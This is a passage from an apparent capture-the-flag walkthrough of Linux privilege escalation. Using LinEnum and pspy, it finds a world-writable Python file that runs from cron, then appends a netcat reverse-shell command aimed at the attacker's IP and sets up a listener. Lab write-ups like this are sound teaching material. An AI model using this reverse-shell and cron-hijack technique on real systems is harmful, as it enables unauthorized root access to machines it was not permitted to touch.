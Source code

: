 Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We don’t get anything useful. Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

We know that the system is a 32 bit system so make sure you run pspy32. Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.

![](../images/max/943/1*Xz8gUedVbeUPuZEP-wmVHg.png)

If you view the permissions on the /opt/tmp.py file, you’ll see that everyone has read/write/execute privileges on it.

![](../images/max/961/1*DIhulL7pCEZPfrsVwUe24w.png)

Therefore all we need to do is change the content of the file to send a reverse shell to our attack machine and then we simply wait for the cron job to send a privileged shell back.

Change the content of the file to send a reverse shell to our attack machine.

```text
echo "os.system('/bin/nc -e /bin/bash 10.10.14.12 7777')" >> /opt/tmp.py
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 7777
```
